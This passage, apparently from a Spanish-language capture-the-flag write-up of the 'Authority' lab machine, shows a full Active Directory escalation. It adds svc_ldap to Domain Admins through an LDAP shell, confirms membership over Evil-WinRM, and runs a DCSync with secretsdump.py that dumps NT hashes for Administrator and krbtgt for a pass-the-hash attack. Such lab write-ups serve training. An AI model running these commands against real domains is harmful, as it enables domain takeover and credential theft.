```bash
 set_dontreqpreauth user true/false - Set the don't require pre-authentication flag to true or false.
 set_rbcd target grantee - Grant the grantee (sAMAccountName) the ability to perform RBCD to the target (sAMAccountName).
 start_tls - Send a StartTLS command to upgrade from LDAP to LDAPS. Use this to bypass channel binding for operations necessitating an encrypted channel.
 write_gpo_dacl user gpoSID - Write a full control ACE to the gpo for the given user. The gpoSID must be entered surrounding by {}.
 whoami - get connected user
 dirsync - Dirsync requested attributes
 exit - Terminates this session.

# add_user_to_group svc_ldap "Domain Admins"
Adding user: svc_ldap to group Domain Admins result: OK
```

Conectados al **`DC`** con el usuario **`svc_ldap`** a través de **WinRM** (ya que verificamos previamente que tenía permisos para hacerlo), revisamos los miembros del grupo **Domain Admins** y confirmamos que ahora formamos parte de él.

Aunque ya tenemos privilegios de **Domain Admin**, nuestro objetivo final es **convertirnos en el usuario `Administrator`**. Para ello, exploraremos otros ataques que nos permitan obtener acceso directo a esta cuenta.

```bash
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> net group "Domain Admins"
Group name     Domain Admins
Comment        Designated administrators of the domain

Members

-------------------------------------------------------------------------------
Administrator            svc_ldap
The command completed successfully.
```

Como ahora formamos parte de **`Domain Admins`**, tenemos permisos para realizar un ataque **`DCSync`**, lo que nos permite extraer los hashes de las credenciales del dominio mediante `secretsdump.py`.

Aquí obtenemos el **NT hash** del usuario **`Administrator`**, lo que nos permitirá realizar un `Pass-The-Hash` y acceder directamente con su cuenta.

```bash
❯ secretsdump.py authority.htb/svc_ldap:'lDaP_1n_th3_cle4r!'@10.10.11.222 -dc-ip 10.10.11.222 -just-dc-ntlm
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6961f422924da90a6928197429eea4ed:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:bd6bd7fcab60ba569e3ed57c7c322908:::
svc_ldap:1601:aad3b435b51404eeaad3b435b51404ee:6839f4ed6c7e142fed7988a6c5d0c5f1:::
AUTHORITY$:1000:aad3b435b51404eeaad3b435b51404ee:addf932778c269fb8c1a60e722569258:::
[*] Cleaning up... 
```
